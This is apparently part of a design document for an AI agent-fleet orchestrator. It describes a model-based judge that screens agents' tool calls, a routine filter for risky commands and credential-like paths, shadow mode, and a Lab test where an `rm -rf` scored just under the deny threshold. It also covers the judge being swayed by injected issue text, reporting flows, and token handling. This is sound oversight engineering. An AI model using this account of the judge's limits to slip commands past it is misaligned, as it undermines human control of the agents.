  has `..`, names a dotfile (`.git/config`, `.env`) or looks like a credential, and every `sed`, `sort`, `rg`, `find`, `gh`, `cp`, `mv`, `rm`,
  `curl`, shell or script go to the model as before. Such a call is audited with `model: null`. A symlink inside the worktree that points
  outside it cannot be seen from the command's text: a known limit. Set `"routine_filter": false` to ask the model about everything.

What the audit records: `arguments` is cut to 300 characters in the audit, but the judge itself is sent up to 1500 (the plugin sends up to 4000), so
the model sees more than a labeller reading the audit does. `bin/judge-sample` draws a stratified sample from the audit for labelling.



**The judge only tightens.** It can turn allow into ask or deny, and ask into
deny, never the reverse. So a judge that is wrong, slow, unreachable, or talked
round by text in an issue body is no worse than having no judge: the configured
rules still hold. With it in place, the configured rules can be permissive,
because the judge catches what a name-based rule can't tell apart.

**It runs on every call, with no service environment (#73).** The `fleet-hooks`
plugin used to switch both hooks off unless `FLEET_SWITCHBOARD_BIN` and
`FLEET_SWITCHBOARD_SHIMS` were in v2's service environment, and a service
started by a TUI has neither, so nothing was ever judged. Now, when a variable
is unset, the plugin uses `realpath(~/.local/bin/fleet-switchboard)` and
`<checkout>/shims` beside it. A variable that is set wins, even a bad one. The `gh` shim does the same for its signature: with `FLEET_SWITCHBOARD_BIN` unset it runs `whoami` through the resolved `~/.local/bin/fleet-switchboard` (an executable file, never looked up on PATH), so a signed comment names the real agent and not `agent`.
`fleet-doctor` has two checks: `switchboard-path` says when that link resolves
anywhere but the main checkout (`~/Code/fleet-kit`, or `$FLEET_KIT_MAIN`), so a
stale worktree is named and never used silently; `judge-liveness` fails when
agents are working and no `policy.judge` entry has been written for 30 minutes
(`fleet-switchboard status` carries the same line as `policy judge  ALARM: ...`).
The alarm cannot tell an agent that has only just started from a silent
judge, so a first alarm after a long idle spell is worth one more look.

**Shadow mode.** `policy.shadow: true` (default `false`) runs the judge and
audits every verdict, and enforces none: the reply is always the configured
outcome. Each `policy.judge` audit entry carries `shadow: true` and `verdict`
(`would-ask`, `would-deny`, or `unchanged`) next to `latency_ms`. It only ever
keeps the configured outcome, so it cannot loosen anything. Use it for the first
hours of a judge that has never been live, then remove it. (A deterministic rule
that is not a tool call, `decisions answer` against the owner's orders, is not
a tool-call hook and is unaffected.)

**Sampling the judge.** `fleet-switchboard policy-report [--minutes 60] [--json]`
reads the audit log and prints calls judged, would-ask, would-deny, what was
actually enforced, and latency p50/p95. `policy-report --check` is the liveness
check the doctor runs (exit 1 on an alarm).

**A hard deny is escalated, not argued.** "Outside the Intent" is denied, and
the denial reason tells the agent to escalate: a worker or orchestrator sends
it to the Chief of Staff, which asks you; an orchestrator may use the
`awaiting-user` label on its charter. Only you, or the Chief of Staff with your
yes, widen the ask, after which the same call is judged against the new
Intent.

**Asks reach you.** A tool call that becomes "ask" leaves the agent waiting on
a permission prompt. herdr reports it as blocked, and the switchboard's
blocked-worker toast (scenario W3) tells you, with the judge's reason.

**Latency.** Every judged call waits for Jev. Identical calls by the same
agent on the same ask are cached for the session, and a call with no answer
within the budget (target under a second; spike SP1) keeps the configured
outcome.

**Plugin.** This needs one thin v2 plugin, `fleet-hooks`, which forwards the
hook to `fleet-switchboard judge-tool` and holds no logic of its own. SP1
measured its shape: an external v2 plugin is `export default { id, setup(api) }`,
registered with `api.permission.hook("evaluate", fn)`, and it is not given a
`prompt` hook (PR 8 needs none). With the plugin absent, everything else works
and tool calls follow the configured rules alone.

**The daemon holds the key.** The plugin runs inside v2's service process, and
anything it spawns inherits that environment, which is also the environment of
every agent's shell. So `judge-tool` never reads the OpenRouter key and never
calls Jev: it asks the switchboard daemon over `judge.sock` in the state
directory, and the daemon, which has the key, makes the call. If the daemon is
down or late, the configured outcome stands.

| Spike | Finds out |
|---|---|
| SP1 | In the Lab: a v2 plugin's `permission.hook("evaluate")` fires for shell commands; a deny's message reaches the agent; an ask shows as blocked in herdr; a configured deny stays final; Jev's added latency per judged call, cold and cached |
| SP2 | Shadow mode on recorded Chief of Staff and orchestrator tool calls: how often the judge would have changed the outcome, and whether those changes are right |

**SP1 results (Lab, a probe plugin in the Lab profile only).** The hook fires
for a shell call with the session, the agent, the action `shell`, the command as
`resources`, and the configured effect. Assigning `effect` and `message`
tightens it: allow to deny and ask to deny make the tool fail with
`permission.rejected` and exactly that message, so the agent sees it; allow to
ask creates a pending permission request that carries the message. An async
handler is awaited, so its time adds to the call directly (a 1 s handler gave a
first ask at 1.4 s). A configured deny removes the tool, so the hook never runs
and a configured deny is final.

**The real plugin, end to end (Lab).** `fleet.hooks` loads from the profile's
`plugins/` directory; an absolute path in the config's `plugin` array was not
loaded. With the daemon holding the key, a harmless `git log` is left alone; a
`git push --force` and a `gh workflow run` each got an ask about 0.8 s after the
prompt, carrying the judge's reason, and were declined. An `rm -rf` of a
nonexistent path was allowed: `hard_to_reverse` scored 0.46 against the 0.5
threshold, which is what SP2 is for. Jev took 408 to 485 ms per call inside the
daemon. The key is in no file under the Lab and not in v2's service
environment. A file write is the action `edit`; a fetch is `webfetch`; a
subagent launch is `subagent`.

### Workers report (PR 13)

The trial showed that every time a worker ended a turn the switchboard derived a
`worker.idle` fact for its boss; the Chief of Staff was woken, had nothing to act
on and answered "no change", and those answers were all you saw. The fix is that
workers say what happened, and a bare idle stops being news.

**`fleet-switchboard report`.** See the agents table. A report is a fact of kind
`report`, key `report:<sender>:<id>`, summary starting with its state. An
attention report goes through `send`'s path (`plan`/`deliver`): there is one
delivery path, not two. A progress report is the one thing stored: a CLI
process cannot wait for a message to ride in, so it is kept in
`report-riders.json` (mode 0600) until its key shows in the boss's transcript or
inbox, or it is older than `rider_max_age_seconds`. An attention report also
carries the progress reports waiting for that boss.

**A bare idle is a rider.** `worker.idle` keeps its text (outcome and last
reply, 600 characters) and never wakes anyone. `worker.blocked` is unchanged.

**A stop without a report** is derived from facts only. An *assigning input* to
a worker is a message in its transcript that is not a switchboard rider: a prompt
(yours, the fleet's, or the brief `launch` sent) or a message from its boss
(`send`, a handoff). A GitHub notice, decoration, reminder, nudge or toast is not
one. The worker has *reported* when its boss's transcript holds a `report:<worker>:*`
or `send:<worker>:*` key (a `send` to its boss tells it as much as a `report`) newer than its latest assigning input (the same `delivered_keys` read the
delivery rule uses, which now also returns when each key arrived). When a turn ends
and the worker has not reported, the decision model is asked one question,
`report_owed`: did this turn end with work done, blocked, failed or needing a
decision that the boss has not been told about? Its state is the ask's Intent and
Done when, the worker's role and its last reply.

| Outcome | When | What happens |
|---|---|---|
| Nudge | probability at or above `report_triage.owed_threshold` (0.5), and no nudge yet for this assigning input | One wake for the worker: "You stopped without telling the boss. If your work is done, failed, blocked or needs a decision, run: fleet-switchboard report <state> \"one line\". If nothing changed since your last report, say nothing." The key `nudge:<session>:<assigning message id>` makes it once; a key found in the worker's transcript means it was sent |
| Silent | probability below the threshold | The idle stays a rider |
| Tell the boss | a nudge was already sent and the worker stopped again without reporting, or the model failed, timed out (`report_triage.budget_seconds`, 3) or is not configured, or the boss cannot be read | One `worker.stopped` fact for the boss (not a rider), replacing the idle: "<worker> stopped without reporting (<outcome>): <last reply>" |

**Judging a stopped note for news (#96, off by default).** `report_triage.stopped_news` is `"off"` (default),
`"shadow"` or `"on"`; `report_triage.news_threshold` (default 0.15) is the probability of news under which a note is
clearly no news. When a `worker.stopped` would wake the **Chief of Staff alone** (every non-rider fact waiting for it is a
`worker.stopped`; an orchestrator's boss is never touched), the decision model (the same client and `budget_seconds` as
`report_owed`) is asked one question on the worker's last reply: "Does this tell the person anything new?". The note is
dropped only when the worker ended cleanly (`succeeded`) and the answer is under the threshold. Everything else wakes as
before: any error, timeout, missing answer, doubt, a worker that did not end cleanly, no model. It is never a rule on the
reply text alone. `shadow` judges and audits (`would_drop`) and drops nothing, so the setting can be watched before it
is turned on. Each note is judged once and audited once as `stopped.news` with the question, the answer, the latency,
the model and its usage (the cost), the mode, the threshold and the outcome (`dropped`, `would_drop` or `wakes`);
`fleet-switchboard status` shows how many were judged, dropped and would be dropped in the last hour.

A stop older than `rider_max_age_seconds` is not triaged, a read-only
`status` or `pending` never asks the model, and a stop is asked about once per
daemon life (a cache, rebuilt after a restart). Each triage writes one
`report.triage` audit event: the question, the answer, the outcome, the latency
and the model, never a credential.

Faults (Lab only), one per behaviour: `idle-wakes` (a bare idle wakes again),
`no-rider` (riders wake, progress reports are delivered), `no-nudge-once` (every
stop is nudged), `no-fail-open` (a failed model call stays quiet),
`ignore-reports` (a report is not recognised), `no-description` (a message goes
without its one line).

### Decisions (PR 14)

You had no place to see what is blocked on you, so agents repeated "I am still
waiting on your two answers" in every reply. The Decisions list is that place:
read-only, in the right sidebar of the TUI like the TODO list, and as a command.
No dialog and no text pushed into the prompt box (a click opens or copies a link, below): you read it and name a
decision by its id in chat ("answer #2a: yes"). It is **derived, never the source
of truth** (invariant 1): every row comes from a fact that already lives
somewhere else, and deleting the file loses nothing.

**What is a decision.** Each is `{id, title, headline, ask, repo, agent, kind, since, tier}` (and, on an issue
that a report was folded into, `reported_by`), oldest
first, from three sources, one function (`derive_decisions`) that reuses the
readers the pass already has:

| Source | `kind` | Row | Read from |
|---|---|---|---|
| An open issue with your label (`awaiting_label`, default `<OS user>:awaiting-user`, as in `skills/fleet-charter`) | `issue` | The issue title; agent is the orchestrator that owns the issue | The hub's picture of every watched repo (PR 15): `issues` and `issue_comment` webhook events keep it, and the catch-up read (one `gh api` call per repo per forwarder start, never per pass, with that repo's own account) makes it right |
| A pending permission request or question of any fleet agent, a boss with no boss included | `permission`, `question` | `permission: shell echo hi`, the agent that asked | What `WorkerFacts` already reads for a blocked agent |
| A `question` or `blocked` report delivered to a boss and not answered | `report` | The report's line, the worker that sent it | The boss's transcript (`decisions_lookback_hours`, default 72) |

**The headline** is what the panel shows; `title` stays as it was, for older readers and for the CLI.
The daemon computes it once per pass in `derive_decisions`, so every reader agrees: an issue's is its title; a
report's is the title of the issue it is about (when its repo and issue are known) and then its gist, else the
report line. Every URL is shortened (a GitHub issue or pull request URL `https://github.com/o/r/issues/N` becomes
`r#N`, any other URL its host), and the text is cut at a word boundary to what fits two panel lines (34
characters each), with an ellipsis only past that. The issue title comes from what the daemon already holds,
never from a new `gh` read: the open decision's own title (the hub's picture), else the intent reader's cached
issue; a report whose issue is in neither keeps its report line.

**Clicking a row (issue 66).** A decision row links to its issue (`https://github.com/<repo>/issues/<ask>`, for an
issue decision, a report with an issue number and a batch) and a heads-up row to its PR
(`https://github.com/<repo>/pull/<number>`); a row with no repo or no number has no link and behaves as before. The
`id age` line is drawn as an OSC 8 hyperlink (OpenTUI's own link attribute, not text, so no line gets wider), and
a click on the row copies the link through OSC 52 and shows a toast. In herdr inside iTerm2 that means: hold
Ctrl (herdr's own link click) and click the `id age` line to open the issue or PR in the
browser, or click the row to copy the link. A terminal that ignores OSC 8 shows the same plain text, and one that
ignores OSC 52 shows the link in the toast to copy by hand. The plugin spawns no process and makes no network
call: the terminal opens the link. The URL is built only from the entry's `repo` and `ask` or `number`, each
matched against a strict pattern, never from a title; control characters in a title or row are dropped.

**One question, shown once.** A report and an issue decision with the same repo and issue number are one question:
the report is folded into the issue's decision, which keeps the issue's id and gains `reported_by` (the reporting
agents) and `reported_lines` (the last 3 folded reports' own lines, `agent: text`, each clipped to 160 characters, so what the workers said stays reachable). A report
whose line named no repo at all has only a guessed repo (its sender's): it folds into the one listed issue
decision that has its number, in whatever repo (two such decisions, or none, leave it a report of its own); a report
that names a repo, watched or not, never folds into a different repo's issue. The issue's tier does not matter for a direct match. The folded report's
external link leaves the desired set and is withdrawn once by the existing path.

**Reaching the decision from a different end (#126).** A report also folds into a decision that is the PERSON's (an escalated issue)
when: it is about a work item whose ask is that decision, or about the ask of a work item that is (the parent link from the hub's
picture or the intent reader's cache; the daemon makes at most 3 parent reads a pass, each cached, a command reads none); it has no
issue number and its text names exactly one such decision; or its own issue is no decision (a status ask) but its text names exactly
one. An issue is named as `repo#N`, `owner/repo#N`, an issue URL or a bare `#N` (the report's own repo); repos are compared without
case. Two candidates are ambiguous and fold nowhere. A report on an issue that is only cos-tier, or naming nothing listed, stays its
own entry. Nothing is stored: the escalation arriving after the report folds it on the next pass, and a restart derives the same list. A report with no issue number is folded in only when its text names exactly one open decision's issue
(a short ref `repo#N` or an issue URL) in its own repo; naming none, two or another repo's issue leaves it a
decision of its own. Ids are assigned before folding and never change.

A report is **answered** only when the boss has sent that worker something on
the same ask (a `send` with no `--issue` counts for any ask: the worker has
one. Such a send exists only where `send` does not require an issue, that is with no `intent_repo` or
`intent_required: false`; with both set `send` refuses it and this rule is never reached; and a report that names no issue is answered by *any* later `send` from its boss to that worker, whatever
issue the send carries, because the report names no ask for it to be about), or the same worker has since reported, on the same issue and repo, a newer
`question`, a `done`, a `failed` or a `withdrawn`. `working`, `paused` and
`blocked` never answer: a status line does not resolve the question it sits
beside. A report with no issue is narrower: only a later `done`, `failed` or
`withdrawn` from that worker with no issue answers it, never another `question`
or `blocked`, because two untagged questions need not be about the same thing.
To take a question back once it is superseded, the worker runs
`fleet-switchboard report withdrawn [--issue <n>] "why"`: it clears that ask's
open questions and blocked reports (with no issue, this worker's untagged
ones); `--all` clears every open question or blocked report of the worker, on
any ask. The list drops it at the daemon's next pass. A send that is
only *waiting* in the worker's v2 inbox (delivered as a note to a worker that is busy or engaged with a person,
in no transcript until its next turn) already answers: it is delivered, as everywhere else. A worker that no
longer runs is not waited on. A report is listed once it is in the boss's
transcript, not before: a note still in the inbox is not yet delivered.

**Ids** are short, quotable and derived from the decision alone, with no counter
and no file. An issue's own label is `#<issue>` (`#5`). Any other decision on an
issue is `#<issue>` and two letters (`#2ka`); one about no issue is
`<agent>-` and three digits (`platform-481`). The letters and digits come from a
hash of the decision's identity (the request id, the report's message), not from
its rank among the open ones, because a rank would renumber `#2b` into `#2a`
when `#2a` resolves, and an id must stay put while its decision is open. On a
hash collision the decision that has waited longer keeps its id and the later one
takes the next free one, so two open decisions never share an id. An id can be
reused later for a different decision only by chance, after the first has
resolved. The price of hashing is that ids are not `a`, `b`, `c`.

**Ids and repos (PR 15).** A decision names its repo (`repo`, `owner/name`, or
null for one about no issue) and its id is written as a message writes an issue:
`#5` while one repo is watched, `api#5` or `api#2ka` while several are
(`acme/api#5` if two of them share a name). The same number in two repos is two
decisions with two ids (scenario D6; the `bare-issue-number` fault drops the
repo from the id). The list reads **every watched repo**, the derived set of
"Many repos (PR 15)", not the baseline in the config and not only `intent_repo`,
each with its own `gh` account (`gh_users`); `decisions --fresh` does the same.
A repo that cannot be read is an entry in `errors` naming it, and the issues
last seen there stay listed. A pending request or report takes its repo from
the worker's `repo` (or the tag its report line carries). `status` adds the
count per repo when decisions span several, `pending` and the blocked-worker
toast and message say `(issue api#2)`, and the plugin shows the id, so the tag.

**`decisions.json`.** The daemon recomputes the list at the end of every pass and
writes `$STATE/decisions.json` (mode 0600; temp file and rename, so a reader
never sees half of it) only when the list changed:
`{"generation", "written_at", "daemon_pid", "decisions": [...], "errors": [...]}`.
When nothing changed it only touches the file, so **the file's age says whether
the daemon is alive**. It is disposable: deleting it loses nothing, and the next
pass writes it again (scenario D4; R3 deletes the whole state directory). A source
that cannot be read does not hide the others: it is an entry in `errors`
(`{"source": "github" | "v2" | "reports", "error": "..."}`) and an audit event
`decisions.error`, once per change. Until a repo's first catch-up read the list
says that GitHub is not read yet, rather than passing for empty. A read-only look
(`status`, `pending`) never writes it.

**Staleness.** A file older than 180 s, missing or unreadable is never shown as
current: the command says "the daemon is not updating this list" (and `status`
shows it), and the plugin shows a row `daemon not updating` (scenario D5).

**The TUI plugin** is `plugins/fleet-decisions-tui/`: `tui.tsx`, a thin layer over
`decisions.mjs`, whose pure functions (read the file, staleness, rows) are tested
with node. v2 loads it from the profile's `cli.json` (`{"plugins":
["./fleet-decisions"]}`, a directory holding `tui.tsx`), into the `sidebar.content`
slot, as a section titled **Decisions (N)**, in two tiered sections, **Waits on you (n)** first and **Waits on cos (n, k over 1h)**
second (k decisions have waited longer than an hour: the queue that must not pile up; a third, **Waits on orchestrator (n)**, only when one exists), each grouped by repo (repos by name,
oldest decision first). An entry is its headline in at most two lines of 34 characters, then `<id> <age>` (with
the reporting agent after it when a report was folded in); a thin rule separates entries and a heavy one
separates repos and sections. A file an older daemon wrote has no headline: the title is used, cut the same way.
**Waits on you** is the human tier only, in every panel: the Chief of Staff's own panel lists the other tiers
under the sections after it, and a human's panel has the one section. The section never
disappears (design law: no disappearing UI): an empty list is a row `none`, and a
missing, unreadable or stale file, or a state directory it cannot place, is a row
`daemon not updating`. It watches the **directory** of `decisions.json` with
`fs.watch`, because the file is replaced by rename, with one slow re-read every 60
s and one timer for the moment a list would turn stale.

**The styled panel (issue 67)** is the default drawing, built by subtraction. Top: `Decisions` with the view label flush right, then
one line of counts: `N need you` (`need human` in the Chief of Staff's and a repo's panel) · `M PRs` · `K with cos` (`on cos` there),
with `(J over 1h)` when some have waited over an hour; a count of 0 is left out. Then only the sections that have something, each a
bold name, a repo name once per group (without its org when no other repo in the file has that name; refs to the group's own repo
read `#N`), and blank lines instead of rules. What needs you is two lines: the headline in bold, then the id (muted) with its age flush
right. A heads-up is one line: `#N` and the headline cut to fit, age flush right; the number is green when CI is green and the PR approved, red
when CI fails, plain otherwise (the real id `pr:<repo>#N` is unchanged in the file; a heads-up is never answered by id). In the Chief of
Staff's panel the cos tier is one line per repo (`3 · oldest 1d`) and is not listed. Ages are muted, warning from 24h. Colour is
the TUI theme's (`text.muted`, `text.feedback.*`), never a fixed colour; a theme without a token draws that text in the base colour.
Every line of an entry carries its link (see the links above). `FLEET_SWITCHBOARD_PANEL=plain` draws the earlier plain panel (and so does
any error while drawing the styled one); `viewLines`, the Decision baseline's plain view, is unchanged and tested. To roll back, copy the
previous `tui.tsx` and `decisions.mjs` over the installed ones and restart the TUI.

**Iteration 3 of the styled panel** adds, on the same layout: a stable colour per project (a repo's header, and the number of its
heads-ups): one of four theme colours (`syntax.keyword`, `function`, `operator`, `type`, chosen by a hash of the full repo name, so a repo
keeps its colour; never the state colours); a one-cell mark per row, `◆` a PR (`✓` green when ready, `✗` red when CI fails), `?` a
question, `¶` a report, `⧖` before an age of a day or more (the state is the mark's colour, so it does not fight the project hue);
bold for what needs you, italic muted for ids and ages, the link underlined; two blank lines before a section; a large PR's size
(`+A/-D`, from 500 lines) on its own line in the theme's diff colours (`diff.text.added` / `removed`, the ones the sidebar's git status
uses). The marks are single-cell: measured in herdr, `✓ ✗ ◆ ¶ ? ⧖ ● ○ ▲` are one cell and emoji such as `✅ ❌ ⏳ 🔴 💬` (and `⚠️`) are two.

**Kind marks and search links.** A row's mark says its kind: `◆` a PR, `○` an issue, `?` a question or a permission, `¶` a report (all one cell).
In the summary line `N PRs` and `N on cos` (`with cos` in a human's panel) are links, and in the Chief of Staff's panel so is each
folded repo line of Waits on cos. A PR count links to the open PRs of its repos (one repo: that repo's pull-request search; several: one
`github.com/search` with a `repo:` per repo), a cos count to the open issues carrying the cos label (`<user>:awaiting-cos`) in the repos
that have one. They go through the same `safeUrl` check as a row's link, built only from a repo that matches the strict pattern and a label of
that form; the user in the label is the OS user, read from the TUI's environment (the daemon's default label: a configured
`awaiting_cos_label` is not known to the plugin, and then the link is the default one or none). **What a link cannot show:** a cos-tier
decision that is a report or a prompt is not an issue, so no issue filter lists it: the link covers the issue-kind decisions of its
repo, not the whole count (a repo with only reports has no link). A search over several repos is one GitHub search; an organisation
you cannot see from the signed-in account (for example an enterprise-managed one) may show nothing there, and the per-repo links still work. It spawns no process, holds
no credential and makes no network call; it reads only `decisions.json` in the state
directory: `FLEET_SWITCHBOARD_STATE` when set (the trial's wrapper exports it), else the
daemon's default, `$XDG_STATE_HOME/fleet-switchboard` or
`$HOME/.local/state/fleet-switchboard`. `switchboard-trial
up` installs it and `status` says whether it is installed; a TUI picks it up when
it is restarted (`switchboard-trial restart`), and `up` never restarts v2. The
sidebar exists on the session screen only, and only in a terminal wide enough to
show it (the Lab's 160 columns give a sidebar about 36 columns wide).

**Proof that `fs.watch` fires inside the TUI plugin runtime, on macOS** (Lab
tier, 2026-10-06). The plugin runtime is the Lab's pinned v2 binary (2.0.22), which
runs plugins on bun 1.4.2, darwin. A throwaway profile (its own XDG directories,
its own service port 49392, set with `service set port`) ran that binary's TUI in a
pty, 160 by 45, read through a terminal emulator. First a probe plugin that only
watched the state directory and logged each event: three renames of
`decisions.json.tmp` over `decisions.json`, three seconds apart, logged six events
(`rename decisions.json.tmp`, `rename decisions.json` each time) within 10 ms of
each rename, and the sidebar row the probe drew went from `probe events: 0` to
`probe events: 6`. Then the real plugin: with no file the section read `Decisions
(?)` and `daemon not updating`; a renamed-in file with two decisions drew
`Decisions (2)` and both rows within 3 s; and a list written with an mtime 100 s
old turned to `daemon not updating` 25 s later with no file event, from the stale
timer. (The same run showed that a row wrapped at the sidebar's width, which is why
titles are wrapped to 34 characters.) The probe, the throwaway profile and its service
(pid recorded, stopped with `service stop`, never by name) are gone, and a
checksum of the Lab's config, wrapper and `lab.json` was identical before and
after: the proof used the Lab's binary and none of its state, because a second v2
on another XDG directory collides with the Lab's service on port 49374 unless its
`service.json` names another port. Not measured: a terminal narrower than the
sidebar's threshold, and a macOS machine where the directory is on a network volume.

Faults (Lab only), one per behaviour: `no-decisions-file` (the file is never
written), `stale-as-fresh` (an old file is shown as current), `decision-resolves-never`
(an answered report stays listed). Scenarios D2 to D5 are new, and R3 now also expects
the file back.

### Many repos (PR 15)

One Chief of Staff, many independent projects. The structure is fixed:

- **One Chief of Staff,** in its own herdr workspace. It never does work; it
  commissions it.
- **One orchestrator per project,** in that project's own herdr workspace (one
  workspace per repo checkout); its coders are tabs in that workspace. The
  charter's `workspace:` line is the exact herdr workspace label. The
  orchestrator keeps the name `orchestrator`.
- **The projects are independent:** different repos, usually different GitHub
  owners and different `gh` accounts (one account cannot see another's repos).
  One daemon, one fleet, many repos.

**The watched repos are derived, not listed.** On every pass the daemon watches
the config's `github_repos` (the baseline), plus every `repo` named in a live
fleet agent's session metadata, plus the repo of every charter it holds (an agent
with a `charter` and no `repo` is in `intent_repo`). The pass reconciles the
forwarders: it starts one for a repo that joins and stops it when no live agent
and no baseline names the repo any more. There is no registry file; deleting the
state loses nothing (invariant 8), because the next pass derives the same set. A
fleet that cannot be read (herdr or v2 unreachable) changes nothing: a glitch
never drops a watch. The `static-repos` fault reads the baseline only.

**A repo whose forwarder cannot work is polled.** When a forwarder exits because
the repo does not exist yet, or the account cannot create a webhook (it needs
admin on the repo), the repo falls back to the catch-up read, run on a poll every
`github_poll_seconds` (default 60, at least 15). A poll asks only for what
changed since the poll before, with two polls of slack, so it costs about four
`gh api` calls (comments, issues, pulls and runs, plus two per PR that changed),
not a day's reading. The forwarder keeps retrying on its own backoff, so a repo
that does not exist yet starts forwarding when it appears, and the polling stops
once it has connected. While a repo is polled, `status` says so and why, and one
toast is raised (not one per retry).

**Issue references are repo-qualified.** An issue number alone is ambiguous across
repos, so `owner/repo#N` is accepted wherever a number is: `send --issue`,
`report --issue`, `intent`, `handoff`, `remind`, `comment` and `launch --issue`.
Internally a fact carries its repo beside its issue. With no qualifier the repo
is the caller's own (`metadata.fleet.repo`), else `intent_repo`. When more than
one repo is watched, a bare number from a caller with no repo is refused, and the
refusal lists the choices (`acme/api#2` or `acme/web#2`). With more than one repo
in play a message names an issue with a short tag, `api#2` (`acme/api#2` if two
repos share a name), and the ask header, `intents`, `pending` and the judge's
context all read the right repo's Intent. The `intent.edit` key includes the repo.
With one repo nothing changes: no tag, no qualifier needed. The `bare-issue-number`
fault ignores the qualifier.

**A GitHub App token per repository (`shims/app_mint.py`).** For a repository under `app_installations` (`{"acme-org/widget-api": {"app_id": 123456, "installation_id": 7654321}}`; the installation id is optional and looked up when absent), every `gh` call and every `git` network verb (through the credential route) uses an installation token limited to that repository and to `app_permissions` (default: contents write, pull_requests write, issues write, checks read, metadata read), minted at most once an hour and cached with a five-minute margin under the state directory (mode 0600). The key is `app_key_path` (an owner-only file) or `app_key_command` (an argument list, no shell, that prints the PEM, for a vault); exactly one. The JWT is signed by the system `openssl` at a fixed path with the key passed through a pipe. Fail closed: no key, an unreadable key, a mint error, a timeout, an answer that does not parse, a token with a permission beyond the configured set (Administration above all, which the config itself refuses) or for another repository, an App not installed on the repository, or a configuration that cannot be read: the call is refused with `the stored login is not used`, never retried as the stored login. The token reaches the real `gh` as a private `hosts.yml` in a per-call `GH_CONFIG_DIR` (mode 0700, removed when the call ends), never in argv or an environment variable, and every inherited token variable is removed. A repository that is not mapped is handled as before (with no `gh_users`, an unmapped repository keeps the stored login through `gh` and the git credential route). While the App is configured, only `config`, `completion`, `help` and `version` skip it (`extension`, `alias` and `auth` can reach the network), and a missing switchboard, a missing repository identity or any unexpected error refuses the call instead of using the stored login. A worker acts only for its own repository: a command that names a DIFFERENT mapped repository (`-R`/`--repo` or an issue or pull request URL) is refused, naming both. Only the Chief of Staff, by its RECORDED role (`whoami --json` carries `role`; a missing role counts as not), acts as the repository the command names or the default; any other caller with no repository of its own is refused when that repository is mapped to the App; a repository reached only through `gh api` or a path the shim cannot read is not detected (residual). A shim stopped by SIGTERM or SIGHUP removes its token file and stops its `gh` child; a SIGKILL leaves the file until a later call sweeps directories older than an hour (residual; the token lives one hour). this kit's own repository (any repository named `fleet-kit`) is refused in the config. Not a boundary against the same OS user: a process of that user can read the key file and the cache. Tests: `bin/test-app-mint`.

**A `gh` account per repo, and never a secret in text.** The config's `gh_users`
maps `"owner/repo"` or `"owner/*"` to a `gh` account name: the repo entry first,
then the owner entry, then the default (the token in the daemon's own
environment, or `gh`'s active account). The token comes from `gh auth token --user
<account>` at the moment it is used, is held in memory for a minute, and is
passed only in a child's environment as `GH_TOKEN`: the daemon's forwarders, its
catch-up and lookup reads, its Intent reads, the judge's reads, `comment`, and an
agent that `launch` starts. It is never in an argument list, a URL, a log, an
audit entry, a message or an error (text read back from a child has it scrubbed
out). The audit names the variable (`GH_TOKEN`), never its value. `launch`
refuses, naming the entry it wants, when `gh_users` is set, the repo's owner has
no entry, and no default token is in the environment. The `one-account` fault
uses the default token for every repo.

What scope those tokens really have, and the design to narrow them, is in [agent-credentials.md](agent-credentials.md).

**Commissioning a project.** The Chief of Staff does not create repos and never
runs `gh repo create`; it commissions a worker to. The `fleet-setup` skill is the
procedure: check the account map, record a decision for the person ("Create
acme/web (private) under account acme-ci?": an `awaiting-user` issue in an
existing repo, or a question through an orchestrator, or chat), and on a yes
create the workspace and launch an orchestrator whose brief is to create the
repo, its `<user>:orchestrator` and `<user>:awaiting-user` labels and the charter
issue; then confirm with `status` that the repo is watched and say plainly if it
is not.

- `launch --new-workspace <label> --dir <checkout> ...` runs `herdr workspace
  create --cwd <dir> --label <label> --no-focus` (it never takes the person's
  focus), takes the workspace id it returns, and then follows the existing launch
  path unchanged. If the `--charter` it was given has a `workspace:` line that
  differs from the label, it refuses before anything is made (an exact match). A
  charter that cannot be read is refused too. `--workspace` and `--new-workspace`
  together are refused. If the launch fails after the workspace was created, the
  error says the workspace is left for the person to close.
- **Creating a repo is a decision, and the judge says so without asking a model.**
  The tool-call judge treats `gh repo create`, `gh repo delete`, `gh repo edit
  --visibility` and a POST to `/orgs/*/repos` (or `/user/repos`, with `-X POST`
  or any `-f` field) as `hard_to_reverse` whatever the thresholds say, and
  without a model call or a GitHub read, so a slow or unreachable model does not
  change it. Like every judgement it only tightens: the configured outcome is
  the floor. It applies where the judge is enabled (PR 9). The `repo-create-allowed`
  fault switches the rule off.

**Status.** `status` lists, for each watched repo, how it is watched
(`forwarder`, `polling every Ns`, `failed` with the reason, or `conflict`), the
account name it uses (`default` when none is mapped; never a token) and the fleet
agents in it. `--json` carries the same under `github.detail`. `fleet-doctor`
is unchanged.

| Config key | Default | What |
|---|---|---|
| `github_repos` | `[]` | The baseline of watched repos; the derived set adds to it |
| `awaiting_live_days` | `14` | The age cap on the `awaiting-live` exemption of T9 and T12 (#576): a number of days above 0 and at most 365, declared by `bin/awaiting_live.py`. An open issue whose `:awaiting-live` label is older than this with no comment since comes back as a T9 finding `awaiting-live expired`; when the age cannot be read it is a T9 finding `awaiting-live age unknown` (visible, never quiet). The age comes from one timeline page (100 events: a longer timeline stays `awaiting-live age unknown`) per labelled issue per pass, kept while the issue is unchanged and charged to `triage.calls_per_pass` |
| `retire_idle_minutes` | `10` | `retire --close` closes a pane herdr reads as `working` without `--force` only when its session has no turn in progress and no activity for at least this many minutes (a finite number from 1 to 10080, never a boolean; one that is not is refused at load and again at use, where it keeps the refusal; see the `retire` paragraph) |
